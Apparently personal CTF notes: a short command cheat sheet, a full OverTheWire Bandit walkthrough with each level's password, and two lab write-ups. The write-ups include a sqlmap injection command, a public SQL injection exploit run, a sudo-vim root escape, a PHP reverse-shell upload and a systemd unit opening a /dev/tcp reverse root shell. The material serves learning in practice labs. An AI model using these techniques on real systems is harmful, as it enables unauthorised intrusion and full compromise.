sqlmap -u "http://172.16.128.39:8080/student_grade/index.php?student_id=" --tables -D Dysto_School -T student
Website request command line
curl -v [url]
curl -v -X POST [url]
wget [url]
Forensic Investigation
volatility
testdisk
Hidden files extraction
binwalk -e
Windows
Find the Wi-Fi password using CMD
netsh wlan show profile <ESSID> key=clear
Bandit
My WU of the Bandit wargame from overthewire. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames.
Level 0
The goal of this level is for you to log into the game using SSH. The host to which you need to connect is bandit.labs.overthewire.org, on port 2220. The username is bandit0 and the password is bandit0. Once logged in, go to the Level 1 page to find out how to beat Level 1.
ssh bandit0@bandit.labs.overthewire.org -p 2220
Solution
cat readme
boJ9jbbUNNfktd78OOpsqOltutMc3MY1
Level 1
The password for the next level is stored in a file called - located in the home directory
ssh bandit1@bandit.labs.overthewire.org -p 2220
Solution
Using - as a filename to mean stdin/stdout is a convention that a lot of programs use. It is not a special property of the filename. The kernel does not recognise - as special so any system calls referring to - as a filename will use - literally as the filename.
With bash redirection, - is not recognised as a special filename, so bash will use that as the literal filename.
When cat sees the string - as a filename, it treats it as a synonym for stdin. To get around this, you need to alter the string that cat sees in such a way that it still refers to a file called -. The usual way of doing this is to prefix the filename with a path ./-, or /home/username/-. This technique is also used to get around similar issues where command line options clash with filenames, so a file referred to as ./-e does not appear as the -e command line option to a program, for example.
cat /home/bandit1/-
CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9
Level 2
The password for the next level is stored in a file called spaces in this filename in this filename located in the home directory
ssh bandit2@bandit.labs.overthewire.org -p 2220
Solution
cat spaces\ in\ this\ filename
UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK
Level 3
The password for the next level is stored in a hidden file in the inhere directory.
ssh bandit3@bandit.labs.overthewire.org -p 2220
Solution
cat inhere/.hidden
pIwrPrtPN36QITSp3EQaw936yaFoFgAB
Level 4
The password for the next level is stored in the only human-readable file in the inhere directory. Tip: if your terminal is messed up, try the reset command.
ssh bandit4@bandit.labs.overthewire.org -p 2220
Solution
file inhere/*
inhere/-file00: data
inhere/-file01: data
inhere/-file02: data
inhere/-file03: data
inhere/-file04: data
inhere/-file05: data
inhere/-file06: data
inhere/-file07: ASCII text
inhere/-file08: data
inhere/-file09: data
cat inhere/-file07
koReBOKuIDDepwhWk7jZC0RTdopnAYKh
Level 5
The password for the next level is stored in a file somewhere under the inhere directory and has all of the following properties:
- human-readable
- 1033 bytes in size
- not executable
ssh bandit5@bandit.labs.overthewire.org -p 2220
Solution
find . -readable -size 1033c ! -executable
./inhere/maybehere07/.file2
cat ./inhere/maybehere07/.file2
DXjZPULLxYr17uwoI01bNLQbtFemEgo7
Level 6
The password for the next level is stored somewhere on the server and has all of the following properties:
- owned by user bandit7
- owned by group bandit6
- 33 bytes in size
ssh bandit6@bandit.labs.overthewire.org -p 2220
Solution
find / -user bandit7 -group bandit6 -size 33c
# Lots of files for which you don't have read rights (except one)
cat /var/lib/dpkg/info/bandit7.password
HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs
Level 7
The password for the next level is stored in the file data.txt next to the word millionth
ssh bandit7@bandit.labs.overthewire.org -p 2220
Solution
cat data.txt | grep millionth
cvX2JJa4CFALtqS87jk27qwqGhBM9plV
Level 8
The password for the next level is stored in the file data.txt and is the only line of text that occurs only once
ssh bandit8@bandit.labs.overthewire.org -p 2220
Solution
sort data.txt | uniq --unique
UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR
Level 9
The password for the next level is stored in the file data.txt in one of the few human-readable strings, beginning with several = characters.
ssh bandit9@bandit.labs.overthewire.org -p 2220
Solution
strings data.txt | grep =
truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk
Level 10
The password for the next level is stored in the file data.txt, which contains base64 encoded data
ssh bandit10@bandit.labs.overthewire.org -p 2220
Solution
cat data.txt | base64 -d
IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR
Level 11
The password for the next level is stored in the file data.txt, where all lowercase (a-z) and uppercase (A-Z) letters have been rotated by 13 positions
ssh bandit11@bandit.labs.overthewire.org -p 2220
Solution
cat data.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu
Level 12
The password for the next level is stored in the file data.txt, which is a hexdump of a file that has been repeatedly compressed. For this level it may be useful to create a directory under /tmp in which you can work using mkdir. For example: mkdir /tmp/myname123. Then copy the datafile using cp, and rename it using mv (read the manpages!)
ssh bandit12@bandit.labs.overthewire.org -p 2220
Solution
cd $(mktemp -d)
cp ~/data.txt .
# the base file is a hexdump. We can reverse the process.
xxd -r data.txt > bandit
# Then just check with the `file` command which file you currently have and use the commands accordingly.
# files compressed in `gzip` format can be extracted with `gunzip`. But you need the `gz` extension (so you should think about renaming `mv`).
gunzip [filename]
# compressed files in `bzip2` format can be decompressed with the following command:
bzip2 -d [filename] # -d => decompress
# tar archives
tar xvf [filename]
8ZjyCRiBWFYkneahHwxCv3wb2a1ORpYL
Level 13
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14. For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level. Note: localhost is a hostname that refers to the machine you are working on.
ssh bandit13@bandit.labs.overthewire.org -p 2220
Solution
we find the file sshkey.private so we can ssh into the localhost as user 'bandit14' and with the private key.
ssh -i sshkey.private bandit14@localhost
cat /etc/bandit_pass/bandit14
4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e
Level 14
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
ssh bandit14@bandit.labs.overthewire.org -p 2220
Solution
echo "4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e" | nc localhost 30000
BfMYroe26WYalil77FoDi9qh59eK5xNr
Level 15
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL encryption.
Helpful note: Getting HEARTBEATING and Read R BLOCK? Use -ign_eof and read the CONNECTED COMMANDS section in the manpage. Next to R and Q, the B command also works in this version of that command…
ssh bandit15@bandit.labs.overthewire.org -p 2220
Solution
echo "BfMYroe26WYalil77FoDi9qh59eK5xNr" | openssl s_client -ign_eof -connect localhost:30001
cluFn7wTiGryunymYOu4RcffSxQluehd
Level 16
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000. First find out which of these ports have a server listening on them. Then find out which of those speak SSL and which don’t. There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
ssh bandit16@bandit.labs.overthewire.org -p 2220
Solution
We look for open ports.
nmap -p- localhost
# We logs in to find the password.
openssl s_client -ign_eof -connect localhost:31790
You need to reset the password for the current challenge and you get an ssh key. Which we save as bandit17.key.
Level 17
There are 2 files in the home directory: passwords.old and passwords.new. The password for the next level is in passwords.new and is the only line that has been changed between passwords.old and passwords.new
NOTE: if you have solved this level and see Byebye! when trying to log into bandit18, this is related to the next level, bandit19
ssh bandit17@bandit.labs.overthewire.org -p 2220 -i bandit17.key
Solution
diff passwords.old passwords.new
kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd
Level 18
The password for the next level is stored in a file readme in the home directory. Unfortunately, someone has modified .bashrc to log you out when you log in with SSH.
ssh bandit18@bandit.labs.overthewire.org -p 2220 "cat readme"
Solution
The password is retrieved directly with the login command.
IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x
Level 19
To gain access to the next level, you should use the setuid binary in the home directory. Execute it without arguments to find out how to use it. The password for this level can be found in the usual place /etc/bandit_pass, after you have used the setuid binary.
ssh bandit19@bandit.labs.overthewire.org -p 2220
Solution
We have a file to run and we pass it a command to retrieve the password of bandit20.
./bandit20-do cat /etc/bandit_pass/bandit20
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
Level 20
There is a setuid binary in the home directory that does the following: it makes a connection to localhost on the port you specify as a command line argument. It then reads a line of text from the connection and compares it to the password in the previous level (bandit20). If the password is correct, it will transmit the password for the next level (bandit21).
ssh bandit20@bandit.labs.overthewire.org -p 2220
Solution
You need to open a listening port in TCP.
echo "GbKksEFF4yrVs6il55v6gwY5aVje5f0j" | nc -l localhost -p 61254 &
./suconnect 61254
# Read: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
# Password matches, sending next password
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
Level 21
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
ssh bandit21@bandit.labs.overthewire.org -p 2220
Solution
ls /etc/cron.d
# atop cronjob_bandit22 cronjob_bandit23 cronjob_bandit24
cat cronjob_bandit22
# @reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
# * * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
cat /usr/bin/cronjob_bandit22.sh
# #!/bin/bash
# chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
# cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
Level 22
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
ssh bandit22@bandit.labs.overthewire.org -p 2220
Solution
cat /etc/cron.d/cronjob_bandit23
# @reboot bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null
# * * * * * bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null
cat /usr/bin/cronjob_bandit23.sh
# #!/bin/bash
# myname=$(whoami)
# mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
# echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
# cat /etc/bandit_pass/$myname > /tmp/$mytarget
$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
# -bash: 8ca319486bfbbc3663ea0fbe81326349: command not found
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
ssh bandit23@bandit.labs.overthewire.org -p 2220
Solution
cd $(mktemp -d)
# /tmp/tmp.vqqZkF0eeo
touch test.sh
touch pass
chmod 777 test.sh
chmod 666 pass
vi test.sh
# #!/bin/bash
# cat /etc/bandit_pass_bandit24 > /tmp/tmp.vqqZkF0eeo/pass
# (Wait a minute)
cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
Level 24
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
ssh bandit24@bandit.labs.overthewire.org -p 2220
Solution
cd $(mktemp -d)
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 30002))
s.recv(1024)
for i in range(1000):
print('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ {0:04}'.format(i))
data = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ {0:04}".format(i)+"\n"
s.sendall(data.encode())
response = s.recv(1024).decode()
print(response)
if("Wrong" in response):
print('ok')
else:
print("Got it ", i)
break
s.close()
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Level 25
Logging in to bandit26 from bandit25 should be fairly easy... The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
ssh bandit25@bandit.labs.overthewire.org -p 2220
Solution
We connect to bandit 25 and get the ssh key from bandit 26. We can connect to bandit 26. But first we look at the following file through bandit 25
cat /etc/passwd
# bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
We look into /usr/bin/showtext
#!/bin/sh
export TERM=linux
more ~/text.txt
exit 0
We are in the sh shell and the more command is executed from the start to see the ~/text.txt file.
We now connect to bandit 26.
ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey
At the connection, we see:

We do the same thing again but reduce the size of our terminal so that the more command is effective.

To enter edit mode in more, you type v.
This uses vi. Enter the command
:e /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
Level 26
Good job getting a shell! Now hurry and grab the password for bandit27!
ssh bandit26@bandit.labs.overthewire.org -p 2220
Solution
As before, we connect to bandit 26 with a small terminal. Switch to v edit mode. Enter the command.
:set shell=/bin/bash
:shell
# We finally get a shell in `vi` which allows us to run any command we want.
cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
Level 27
There is a git repository at ssh://bandit27-git@localhost/home/bandit27-git/repo. The password for the user bandit27-git is the same as for the user bandit27.
Clone the repository and find the password for the next level.
ssh bandit27@bandit.labs.overthewire.org -p 2220
Solution
cd $(mktemp -d)
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
cat README
0ef186ac70e04ea33b4c1853d2526fa2
Level 28
There is a git repository at ssh://bandit28-git@localhost/home/bandit28-git/repo. The password for the user bandit28-git is the same as for the user bandit28.
Clone the repository and find the password for the next level.
ssh bandit28@bandit.labs.overthewire.org -p 2220
Solution
cd $(mktemp -d)
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
git log
# commit 073c27c130e6ee407e12faad1dd3848a110c4f95
# Author: Morla Porla <morla@overthewire.org>
# Date: Tue Oct 16 14:00:39 2018 +0200
# fix info leak
# commit 186a1038cc54d1358d42d468cdc8e3cc28a93fcb
# Author: Morla Porla <morla@overthewire.org>
# Date: Tue Oct 16 14:00:39 2018 +0200
# add missing data
# commit b67405defc6ef44210c53345fc953e6a21338cc7
# Author: Ben Dover <noone@overthewire.org>
# Date: Tue Oct 16 14:00:39 2018 +0200
# initial commit of README.md
git checkout 186a1038cc54d1358d42d468cdc8e3cc28a93fcb
cat README
bbc96594b4e001778eee9975372716b2
Level 29
There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo. The password for the user bandit29-git is the same as for the user bandit29.
Clone the repository and find the password for the next level.
ssh bandit29@bandit.labs.overthewire.org -p 2220
Solution
We look into README.md
cat README.md
# # Bandit Notes
# Some notes for bandit30 of bandit.
# ## credentials
# - username: bandit30
# - password: <no passwords in production!>
# So we look at whether there are other branches
git branch -r
# origin/HEAD -> origin/master
# origin/dev
# origin/master
# origin/sploits-dev
# We change branch and find the password in the README.md
git checkout dev
5b90576bedb2cc04c86a9e924ce42faf
Level 30
There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo. The password for the user bandit30-git is the same as for the user bandit30.
Clone the repository and find the password for the next level.
ssh bandit30@bandit.labs.overthewire.org -p 2220
Solution
git tag
# secret
git show secret
47e603bb428404d265f59c42920d81e5
Level 31
There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo. The password for the user bandit31-git is the same as for the user bandit31.
Clone the repository and find the password for the next level.
ssh bandit31@bandit.labs.overthewire.org -p 2220
Solution
cd $(mktemp -d)
git clone ssh://bandit31-git@localhost/home/bandit31-git/repo
cat README.md
# This time your task is to push a file to the remote repository.
# Details:
# File name: key.txt
# Content: 'May I come in?'
# Branch: master
git add -f key.txt
git commit -m "bandit31"
git push
56a9bf19c63d650ce78e6ec0354ee45e
Level 32
After all this git stuff its time for another escape. Good luck!
ssh bandit32@bandit.labs.overthewire.org -p 2220
Solution
Once logged in, a shell in upper case opens
Remember that + $0 => the name of the called script (with full path) + $# => number of arguments + $@ => list of arguments.
$0
# The bash that ran the "Shift" script is recalled
cat /etc/bandit_pass/bandit33
c9c3199ddf4121b10cf581a98d51caee
Level 33
At this moment, level 34 does not exist yet.
ssh bandit33@bandit.labs.overthewire.org -p 2220
Solution
cat README.txt
# Congratulations on solving the last level of this game!
# At this moment, there are no more levels to play in this game. However, we are constantly working
# on new levels and will most likely expand this game with more levels soon.
# Keep an eye out for an announcement on our usual communication channels!
# In the meantime, you could play some of our other wargames.
# If you have an idea for an awesome new level, please let us know!
THE END
Leviathan
Natas
Simple CTF
Recognition
nmap -sV -A 10.10.52.109
From there, we discover several things.

We can see that there is an SSH port open and an apache server running on port 80.
So we can scan the server with gobuster or nikto.
gobuster dir -u http://10.10.52.109 -w /usr/share/wordlists/dirb/common.txt -t 10
nikto -h 10.10.52.109
We end up discovering several pages/folders available

The only one we are really interested in is /simple or at least it is the only one that allows us to attack. Indeed, the CMS Made Simple software is running at this location and by doing some research, we realize that an SQL Injection is possible (CVE-2019-9053).
Exploit
You can find an exploit on the internet https://www.exploit-db.com/exploits/46635
We run it and we find what we need as information to test the connection via ssh.
python exploit.py -u http://10.10.52.109/simple --crack -w /usr/share/wordlists/dirb/common.txt

ssh mitch@10.10.52.109 -p 2222
We can ask who we are with whoami (spoiler: mitch)
and ask about the uname -a machine
We especially want to know what mitch can do
sudo -l
So we run vim in sudo
sudo vim
once inside
:!bash
We are finally root on the machine!
We can recover the requested information:
cat /root/root.txt
cat /etc/passwd | grep home
cat user.txt
THE END.
Vulnversity
Recognition
Start by scanning the machine with nmap
nmap -sV -A --script vuln 10.9.9.65
We see that the Apache server is running on port 3333
So we scan this server
gobuster dir -u http://10.9.9.65:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
We discover a subfolder /internal/ that lets you upload files using a form.
The only problem is that this form doesn't allow any type of file.
We'll use BurpSuite to find the authorized file(s).
Once BurpSuite has been set up correctly, we intercept the request and send a random file.
Then we use Sniper and add a payload at the filename extension filename="name.txt".
Just before the '.' and just after the end of the extension.
As suggested in the task 4 of the room, we create a wordlist with some extensions. We add these extensions as payloads in BurpSuite and then we can start the Attack.
Once the attack has been carried out, a window shows status 200 for each extension tested, as the request was successful. We therefore need to find out when the error message is not sent (the size of the response will be different).
We find that the extension that works is .phtml.
We'll use a reverse-shell already present in kali /usr/share/webshells/php/php-reverse-shell.php and rename it to shell.phtml (don't forget to change IP and port variables).
This file can now be uploaded to the server. But before Submit, in a terminal, enter the following command:
nc -lvnp [PORT]
SUBMIT.
There's a bill user, and in his /home, we can retrieve one of the expected flags.
Next, we need to find a way to gain better privileges. We look for files with the SUID included for the root user.
find / -type f -user root -perm 6000 2> /dev/null
We can see that /bin/systemctl is usable. Let's try to play with it. We can't use a text editor. So we're using the echo command to write in a file:
touch /tmp/root.service
echo "
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.9.65/4444 0>&1'
[Install]
WantedBy=multi-user.target
" >> /tmp/root.service
We now need to listen on our port 4444.
nc -lvnp 4444
Go back to the machine you're running and start the service.
/bin/systemctl enable /tmp/root/service
/bin/systemctl start root
So we get a shell (with the root user) on the machine and have access to everything we want.
cat /root/root.txt
THE END.